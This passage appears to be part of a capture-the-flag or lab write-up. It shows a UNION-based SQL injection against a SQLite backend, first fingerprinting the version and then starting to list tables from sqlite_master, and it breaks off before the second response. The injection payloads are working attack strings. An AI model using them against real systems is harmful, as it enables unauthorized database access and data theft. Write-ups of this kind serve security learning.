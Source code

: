
#### Enumerate database type and version

Only `sqlite_version()` succeed, so it is `sqlite`

**Request**

```bash
321 union all select sqlite_version()
```

**Response**

```bash
3.31.1
```

![](/assets/obsidian/73f5e25d3cc96fedb7f9d29d53d3cff0.png)


#### Enumerate Tables

**Request**

```bash
321 union all select (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
```

**Response**
